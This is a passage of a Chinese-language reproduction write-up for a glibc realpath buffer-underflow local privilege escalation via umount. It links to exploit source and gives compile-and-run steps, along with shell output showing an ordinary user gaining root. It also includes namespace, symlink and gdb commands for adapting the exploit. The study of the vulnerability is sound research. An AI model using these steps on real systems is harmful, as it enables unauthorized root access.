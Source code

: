 ##### <a class="reference-link" name="b.%20EXP%E6%BA%90%E7%A0%81"></a>b. EXP源码

​ 复现环境exp: [https://pan.baidu.com/s/1oaKWzCzqwdkhywu8JOmivQ](https://pan.baidu.com/s/1oaKWzCzqwdkhywu8JOmivQ) 密码:60vv

​ 原作者exp: [exp.c](https://www.halfdog.net/Security/2017/LibcRealpathBufferUnderflow/RationalLove.c)

##### <a class="reference-link" name="c.%20%E5%A4%8D%E7%8E%B0%E6%AD%A5%E9%AA%A4"></a>c. 复现步骤
- 搭建复现环境，与POC中的环境相同
- 步骤一 设置unprivileged_userns_clone权限
```
# 将unprivileged_userns_clone设置为1(默认为0)
root$ echo 1 &gt; /proc/sys/kernel/unprivileged_userns_clone
```
<li>步骤二 编译exp文件
使用的是修改过的exp，具体修改了加载mo的目录和execl的相对偏移以适配复现环境
</li>
```
gcc exp.c -o exp
```
- 步骤三 执行exp
```
debian@debian:~/Desktop/work$ id
uid=1000(debian) gid=1000(debian) groups=1000(debian),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),112(bluetooth),113(lpadmin),118(scanner)
debian@debian:~/Desktop/work$ ./exp
./exp: invoked as SUID, invoking shell ...
root@debian:~/Desktop/work# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),112(bluetooth),113(lpadmin),118(scanner),1000(debian)
root@debian:~/Desktop/work#
```
- 如何获取util-linx.mo文件的相对路径
```
# 定位到_nl_find_msg调用，找到第一个参数的值
char *_nl_find_msg (struct loaded_l10nfile *domain_file,
            struct binding *domainbinding, const char *msgid,
            int convert, size_t *lengthp)
     internal_function;


# Terminal 1
/usr/bin/unshare -m -U --map-root-user /bin/bash
mount -t tmpfs tmpfs /tmp
cd /tmp
chmod 00755 .
mkdir -p -- "(unreachable)/tmp" "(unreachable)/tmp/xxx/C.UTF-8.utf8/LC_MESSAGES" "(unreachable)/x" 
ln -s ../x/../../AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/A "(unreachable)/tmp/down"
echo $$
46416


# Terminal 2
cd /proc/46416/cwd
gdb
file /bin/umount
set args --lazy down 
set env LC_ALL=C.UTF-8
b main
r
b *umount_one if *(char *)$rsi == '('
c
b mk_exit_code
```